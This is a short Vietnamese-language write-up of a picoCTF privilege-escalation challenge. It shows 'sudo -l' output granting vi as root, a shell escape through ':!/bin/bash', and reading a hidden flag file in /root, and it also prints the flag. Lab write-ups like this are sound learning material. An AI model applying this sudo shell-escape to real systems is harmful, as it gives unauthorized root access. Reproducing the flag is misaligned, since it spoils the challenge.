

***Permissions***



Đăng nhập sever ssh theo địa chỉ và mật khẩu đề bài đưa<br>
Kiểm tra sudo permissions xem user có quyền truy cập đến đâu bằng lệnh sau <br>
```sudo -l```
```
picoplayer@challenge:~$ whoami
picoplayer
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
Ta có quyền truy cập tới vi text editor -> có thể dùng vi như là root cho mọi file<br>
Tạo file (test) trong thư mục với vi: ```sudo vi test```.
Chạy câu lệnh [này](https://gtfobins.github.io/) sau khi ở trong command mode của vi: ```:!/bin/bash```<br>


Lấy được root


cd vào /root (theo như đề, ta có thể đọc được các file trong root)<br>
ls -la, xuất hiện file ẩn .flag.txt<br>


cat file, ta được flag: ```picoCTF{uS1ng_v1m_3dit0r_f6ad392b}```<br>